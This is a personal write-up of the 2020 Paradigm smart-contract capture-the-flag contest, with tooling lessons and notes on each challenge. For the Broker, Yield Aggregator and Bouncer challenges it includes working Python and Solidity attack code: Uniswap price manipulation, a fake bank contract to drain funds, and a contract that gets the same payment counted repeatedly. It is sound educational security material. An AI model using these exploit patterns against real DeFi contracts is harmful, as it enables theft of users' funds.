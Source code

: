 # 2020 Paradigm CTF writeup

The Paradigm CTF was 48 hours of smart contract breaking fun. Thanks to samczsun and gakonst for putting this on. I enjoyed the huge of difficulties (from hilariously easy to insanely hard), and the wide variety of the problem types, including non-solidity ones.

# Lessons learned

## Brownie

My biggest takeaway from the contest was how nice brownie is to work with. It makes smart contract development and exploration much easier and more natural than the previous javascript based frameworks I've used.

- Not having async scattered everywhere
- Able to use contracts directly as addresses
- Transparent handling of contracts with multiple compiler versions.
- Instant ABI's from verified mainnet contracts

## Tests

At first I worked through challenges using the provided remote fork server. This required a bit of a dance every 30 minutes or so as the server reset and was a pain to get a fresh start on. 

As I moved through the contest, I switched to running the contracts locally, and writing my attack as a test case. When the test went green, the challenge was solved. This made for much faster iteration cycles, and a clean slate every time. From discovering a vulnerability to having a working, polished attack wen down from three hours for the first challenge to 45 minutes for the last.

## Ordering

If it's just you playing and you are going for points, solve the easy challenges first. Easy ones are usually worth half the points of hard ones, but can take an order of magnitude less time. I usually fail at doing this, and I sure did this contest! 

# Challenges

## Broker 👍

A classic attack. Just adjust the rates on uniswap. I wrote some code to let me easily play with uniswap, then just winged this in the console. Borrowed, raised prices, borrowed more since my collateral was worth more, crashed the uniswap price, liquidated for peanuts.

``` python
def uniswap_weth_for_tokens(token_amount):
    print("  🦄 Trading to weth from tokens")
    a = token.balanceOf(pair)
    b = weth.balanceOf(pair)
    k = a * b
    new_a = a + token.balanceOf(me)
    new_b = k / (new_a)
    diff_b = b - new_b
    my_new_weth = int(diff_b * 0.95)  # Deliberately wrong
    token.transfer(pair, token_amount, STD)
    pair.swap(0, my_new_weth, me, b"", STD)
    print_balances()
```

## Secure 👍

After spending time looking for vulnerabilities, I re-read the win condition: Send a bunch of money to this contract. No hacking required. I sent the money.

## Swap 👎

Didn't solve this one. At least no one else solved it either. It looked like it might have been vulnerable to a numerical overflow, perhaps in the rate exponention.

```javascript
value * 10**decimals / 10**18;
```

## Bank 👎

It was clear that you could use reentrancy to wreck havoc with the accounts list, and get things to happen to the wrong account. However, I never found how to do the final step to modify the amounts of token I wanted to control. I even went to sleep with the my highlighted source code print out under my pillow. It only got 4 solves in total. I look forward to learning what I missed.

## Market 👎

I was suckered into this one because on my first read through, I missed the "randomized" nft ids used. I though it was just matter of buying the first nft, then taking ownership of the storage. 

While I looked at this a long time, I didn't see a vulnerability beyond a precomputed birthday attack on the tokens id's, which would allow you to update one token's ownership from another token's metadata. This would have allowed you to loot the contract, but I didn't have the time check if this was possible from a CPU budget point of view. It only got 7 solves in the end.


## Yield Aggregator 👍

A welcome break from spending hours on a hard challenges. Not only was there no validation of the stablecoins passed in, but there was also no validation of underlying banks, nor a single require statement in the entire contract!

It was very much rigged for a reentrancy attack, but I took a much simpler approach - creating my own bank for the contract to invest into, then  withdrawing matching funds from the "real" bank.


```python
print("🦞 Deploy Faux Bank")
faux = FauxBank.deploy(weth, STD)
show_balances()

print("🦞 Acquire WETH")
weth.deposit({'from': me, 'value': 50 * 1e18})
weth.approve(aggregator, 2**250, STD)
show_balances()


print("🦞 Deposit to Faux Bank")
aggregator.deposit(faux, [weth.address], [50 * 1e18], STD)
show_balances()

print("🦞 Withdraw from real bank")
aggregator.withdraw(bank, [weth.address], [50 * 1e18], STD)
show_balances()
```

```javascript
contract FauxBank {
    uint256 public balanceUnderlying;
    ERC20Likes underlying = ERC20Like(address(0));

    constructor (address underlying_){
        underlying = ERC20Like(underlying_);
    }
    
    function mint(uint256 amount) public {
        require(underlying.transferFrom(msg.sender, address(this), amount));
        balanceUnderlying += amount;
    }
}
```

## Bouncer 👍

Imagine the drug deal of the century. Dark warehouse. Men with guns. Suitcases full of dollars, yen, and Columbian pesos.

The seller's accountant is checking the numbers. He goes down a list of funds provided by the buyer. For each item on the list he opens that suitcase, and counts the money, and if it matches the list, he moves the money over to his side of the line. If any of the totals don't match, the deal is off.

But there's also bitcoin involved in this deal. Some of the entries in the list the accountant holds are bitcoin transactions from the buyer to the seller. The account verifies over an encrypted, black cellular network that the transaction's source, destination, and amounts match the list, then he crosses them off too.

Unfortunately, he's doesn't check that he's not already crossed the same transaction off the list before. 

This smart contract attack works by giving a list currencies and amounts to the to "bouncer", all of which reference the same amount of ethtereum. The bouncer keeps adding the same money to the total over and over again.

(I enjoyed how between every line of this contract was a dancing koala bear, waving a red flag with the words "RUG PULL" on it.)

```python
print("🦞 Deploy attack contract")
robinhood = RobinHood.deploy(bouncer, {'from': me, 'value': 70 * 1e18})

print("🦞 Swoop")
robinhood.swoop(STD)

print("🦞 Attack")
robinhood.attack(STD)

assert(bouncer.balance() == 0)
```

```javascript
contract RobinHood {
    address constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    Bouncer public bouncer;
    uint256 batch = 14.25 ether;

    constructor(address bouncer_) payable {
        bouncer =  Bouncer(bouncer_);
    }

    function swoop() public {
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
        bouncer.enter{value: 1 ether}(ETH, batch);
    }

    function attack() public {
        uint256[] memory ids = new uint256[](5);
        ids[0] = 0;
        ids[1] = 1;
        ids[2] = 2;
        ids[3] = 3;
        ids[4] = 4;
        bouncer.convertMany{value: batch}(address(this), ids);
        bouncer.redeem(ERC20Like(ETH), 5 * batch);
    }

    fallback() external payable {}
}
```

